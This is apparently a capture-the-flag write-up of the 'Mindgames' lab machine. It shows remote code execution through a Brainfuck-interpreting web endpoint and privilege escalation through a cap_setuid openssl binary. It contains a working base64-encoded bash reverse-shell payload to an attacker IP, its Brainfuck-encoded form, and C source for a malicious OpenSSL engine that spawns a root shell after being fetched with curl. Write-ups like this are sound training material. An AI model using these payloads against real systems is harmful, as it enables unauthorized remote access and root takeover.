## TL;DR

Here, we achieve `RCE` using executing of `BrainFuck`, and get reverse shell as `mindgames`.

We escalate our privilege to `root` using `cap_setuid` on `/usr/bin/openssl`, and the get root shell. 

### Recon

we start with `rustscan`, using this command:
```bash
rustscan -a $target -- -sV -sC -oN nmap.txt -oX nmap.xml
```



we can see port `22` with ssh and port `80` with golang http server.
```bash
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 62 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 24:4f:06:26:0e:d3:7c:b8:18:42:40:12:7a:9e:3b:71 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDffdMrJJJtZTQTz8P+ODWiDoe6uUYjfttKprNAGR1YLO6Y25sJ5JCAFeSfDlFzHGJXy5mMfV5fWIsdSxvlDOjtA4p+P/6Z2KoYuPoZkfhOBrSUZklOig4gF7LIakTFyni4YHlDddq0aFCgHSzmkvR7EYVl9qfxnxR0S79Q9fYh6NJUbZOwK1rEuHIAODlgZmuzcQH8sAAi1jbws4u2NtmLkp6mkacWedmkEBuh4YgcyQuh6jO+Qqu9bEpOWJnn+GTS3SRvGsTji+pPLGnmfcbIJioOG6Ia2NvO5H4cuSFLf4f10UhAC+hHy2AXNAxQxFCyHF0WVSKp42ekShpmDRpP
|   256 5c:2b:3c:56:fd:60:2f:f7:28:34:47:55:d6:f8:8d:c1 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNlJ1UQ0sZIFC3mf3DFBX0chZnabcufpCZ9sDb7q2zgiHsug61/aTEdedgB/tpQpLSdZi9asnzQB4k/vY37HsDo=
|   256 da:16:8b:14:aa:58:0e:e1:74:85:6f:af:bf:6b:8d:58 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKrqeEIugx9liy4cT7tDMBE59C9PRlEs2KOizMlpDM8h
80/tcp open  http    syn-ack ttl 62 Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Mindgames.
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Achieve reverse shell using executing of BrainFuck code

When we go to root page, we can see this:



We can see very strange code, this looks like `BrainFuck` code.
we can verify it using the endpoints it sends the request too `/api/bf`.

Also, we can use [https://www.dcode.fr/brainfuck-language](https://www.dcode.fr/brainfuck-language) to decode the string
```bash
+[------->++<]>++.++.---------.+++++.++++++.+[--->+<]>+.------.++[->++<]>.-[->+++++<]>++.+++++++..+++.[->+++++<]>+.------------.---[->+++<]>.-[--->+<]>---.+++.------.--------.-[--->+<]>+.+++++++.>++++++++++.
```



As we can see, it has been decoded to `print("hello world")`.

Let's check if it's really working, I'll try to decode this:
```py
import os; os.system("ping 192.168.132.168 -c 4")
```

And set up `tcpdump` on our local machine:
```bash
sudo tcpdump -i tun0 icmp
```



This is the string, let's send it:
```bash
++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>>>+++++.++++.+++.-.+++.++.<<++.>>-----.++++.<-----------.<.>>----.++++.<-------------.>.++++++.------.+.---------------.++++++++.<------.<++.>>+++.-------.+++++.-------.<<--.>+++++++++.++++++++.-------.----.+++.+++++.++.----------.+++.++.-.----.+++.+++++.++.<.>-----------.>----.<<.>+++++++.<++.+++++++.
```

As we can see, the requests has been sent:



We can verify it:



Now, we can put our reverse shell payload from `penelope`:
```bash
printf KGJhc2ggPiYgL2Rldi90Y3AvMTkyLjE2OC4xMzIuMTY4LzQ0NDQgMD4mMSkgJg==|base64 -d|bash
``` 

Full payload will be:
```py
import os; os.system("printf KGJhc2ggPiYgL2Rldi90Y3AvMTkyLjE2OC4xMzIuMTY4LzQ0NDQgMD4mMSkgJg==|base64 -d|bash")
```
and after encoding:
```bash
++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>>>+++++.++++.+++.-.+++.++.<<++.>>-----.++++.<-----------.<.>>----.++++.<-------------.>.++++++.------.+.---------------.++++++++.<------.<++.>>+++.++.---------.+++++.++++++.--------------.<<--.>>---------------------------.----.+++.++++++++++++++++++++++++++++++.-----.<++++++++++.>++++..-----------------------.+++++++++++++++++++++++++.----------------.++++++++++++++.<++++++++++++++++++++++++++.<++++++++++++++++++.>++++++.>+++++.--------.+++++.<<+++++++.---------.>+++++++.<+++.++++++++++++++.>>+++++++++++++.<<++++++++++++.>-----.>-----------.++++++++++++++.<<-.>>---------------.<<-------.-------------------.>-----.------------.<++.>>++++++++++++++.<++++++++++.>++.<----.>-----.<++++.+++++++.+++++.<.>-------------.>+++++.<+++++.<----.>---.----------.+++++++++++++.>-------------------.<----.---------.<++++.>>++++++.<+++++++++.++++++.>--.----.<---------.>.<<+++++++++..>>+++++++++++++++++++++.<++++++++++++++++++++++++.-.>---------.<++++.<-------.--.--------------------.+++++++++++++.>-.>+++++++++.<--.-.>---------.<+++++++.<-----------.+++++++.
```
and we got the reverse shell



we can grab the user flag:
```bash
mindgames@mindgames:~$ cat user.txt 
thm{411f7d38247ff441ce4e134b459b6268}
```




### Privilege Escalation to Root using cap_setuid on /usr/bin/openssl 

I executed linpeas, and find this interesting capabilites:

```bash
/usr/bin/openssl = cap_setuid+ep
```



After googling, I found this article [https://morgan-bin-bash.gitbook.io/linux-privilege-escalation/openssl-privilege-escalation](https://morgan-bin-bash.gitbook.io/linux-privilege-escalation/openssl-privilege-escalation), which talks on how to exploit this `cap_setuid` on `openssl`.


We'll work on our local machine, and upload the binary to the remote machine
```bash
sudo apt install libssl-dev
```

Now, create `exploit.c`, with this:
```c
#include <unistd.h>
#include <openssl/engine.h>

static int bind(ENGINE *e, const char *id) {
    setuid(0); setgid(0);
    system("/bin/bash");
}

IMPLEMENT_DYNAMIC_BIND_FN(bind)
IMPLEMENT_DYNAMIC_CHECK_FN()
```

Notice I added `#include <unistd.h>`, becuase the compialation failed, and then I find this post [https://stackoverflow.com/questions/19721810/warning-implicit-declaration-of-function-getresuid-and-seteuid](https://stackoverflow.com/questions/19721810/warning-implicit-declaration-of-function-getresuid-and-seteuid) to fix the issue

This was the error:



Now, compiling and linking:
```bash
# -fPIC: for generating a shared object (PIC: Position Independent Code)
# -c: compile and assemble, but do not link.
gcc -fPIC -o exploit.o -c exploit.c
# -shared: create a shared library.
gcc -shared -o exploit.so -lcrypto exploit.o
```

And then, upload the binary, on our local machine:
```bash
python3 -m http.server 8081
```

and on the remote machine:
```bash
curl http://192.168.132.168:8081/exploit.so -o exploit.so
```



Last step will be to trigger the exploit:
```bash
openssl req -engine ./exploit.so
```



And this is the root flag:
```bash
root@mindgames:~# cat /root/root.txt 
thm{1974a617cc84c5b51411c283544ee254}
```
